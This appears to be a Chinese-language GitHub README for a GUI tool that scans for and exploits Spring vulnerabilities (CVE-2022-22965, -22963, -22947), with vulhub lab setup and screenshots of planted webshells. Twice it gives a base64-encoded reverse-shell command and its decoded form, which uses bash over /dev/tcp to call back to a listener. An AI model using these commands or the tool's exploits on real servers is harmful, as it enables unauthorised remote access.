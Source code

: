 # SpringBoot-Scan-GUI by 13exp

Windows:<br> 
python SpringBoot-Scan-GUI.py<br>
直接执行release文件夹内exe程序<br>
<br>
Linux:<br>
python3 SpringBoot-Scan-GUI-Linux.py<br>
sudo wine SpringBoot-Scan-GUI.exe<br>
<br>
vulhub 漏洞测试环境搭建<br>
git clone https://github.com/vulhub/vulhub.git<br>
docker install<br>
sudo apt-get install docker.io<br>
sudo apt install docker-compose<br><br>
CVE-2022-22965<br>
cd /vulhub/CVE-2022-22965<br>
sudo docker-compose up -d<br><br>
CVE-2022-22963<br>
cd /vulhub/CVE-2022-22963<br>
sudo docker-compose up -d<br><br>
CVE-2022-22947<br>
cd /vulhub/CVE-2022-22947<br>
sudo docker-compose up -d<br><br>
如果报错，自行修改.yml中映射的端口号<br><br>
Win使用效果图<br>
CVE-2022-22965<br>
vulhub<br>
![image](https://user-images.githubusercontent.com/73600604/218236128-21bf37e5-e8c2-45de-9f9e-50fbe8ad1574.png)
![image](https://user-images.githubusercontent.com/73600604/218236233-68986684-4698-46d0-a36e-d95d37a2620b.png)
![image](https://user-images.githubusercontent.com/73600604/218236243-0d6b2eb4-6b2d-4c88-91ea-be4a5760675d.png)
<br>内置shell
![image](https://user-images.githubusercontent.com/73600604/218236608-102b9342-1f92-4268-88de-9f35c5de22ce.png)
<br>aabysszg-shell
![image](https://user-images.githubusercontent.com/73600604/218236258-348c30f4-7a5e-43e9-8f12-0f4eb1f27e99.png)
<br>13exp-shell
![image](https://user-images.githubusercontent.com/73600604/218236580-097727c0-cd79-47bc-af8a-3b509324ec3e.png)
<br>春秋云境
![image](https://user-images.githubusercontent.com/73600604/218236469-833740d2-b754-46d8-848d-89236f5ec72b.png)
<br>内置shell
![image](https://user-images.githubusercontent.com/73600604/218236715-9815addd-2502-4e6c-a11c-5ccd054a57ac.png)
<br>13exp-shell
![image](https://user-images.githubusercontent.com/73600604/218236734-655bcfe4-0eac-433d-aa66-07ad51af9fbb.png)
<br>aabysszg-shell
![image](https://user-images.githubusercontent.com/73600604/218236497-11401635-b171-4536-9faa-f431324612a9.png)
![image](https://user-images.githubusercontent.com/73600604/218236516-71dae6a1-3f59-459c-82c8-b49c3d191f6c.png)
<br>CVE-2022-22963
<br>vulhub<br>
<br>准备反弹shell
<br>bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODggMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
<br>编码内容→bash -i >& /dev/tcp/192.168.0.105/8888 0>&1
<br>kali监听<br>
![image](https://user-images.githubusercontent.com/73600604/218240588-a377065e-c4fc-403c-950d-0e688b7e446c.png)
<br>漏洞利用
![image](https://user-images.githubusercontent.com/73600604/218240553-009588c6-be8f-4bbd-9fe8-d3e8cc001795.png)
![image](https://user-images.githubusercontent.com/73600604/218240609-246afc87-e671-4565-bf68-f3dda7360961.png)
<br>春秋云境
![image](https://user-images.githubusercontent.com/73600604/218236995-3ac37c9f-f7e6-478a-a72d-f7951c547047.png)
<br>CVE-2022-22947
<br>vulhub
<br>同样准备反弹shell
<br>bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTA1Lzg4ODkgMD4mMQ==}|{base64,-d}|{bash,-i} || (Base64)
<br>编码内容→bash -i >& /dev/tcp/192.168.0.105/8889 0>&1
<br>kali监听<br>
![image](https://user-images.githubusercontent.com/73600604/218240722-f36a7ac5-b2c3-4043-9b9e-54be43052799.png)
<br>漏洞利用
![image](https://user-images.githubusercontent.com/73600604/218240756-52bb0691-bcbe-4057-b502-716d86aa2a1d.png)
![image](https://user-images.githubusercontent.com/73600604/218241387-1c6b9198-3e76-434b-8a8d-96533613cd26.png)
<br>春秋云境
![image](https://user-images.githubusercontent.com/73600604/218237116-b3897e7c-2c88-45c6-97ad-276c3e7be052.png)
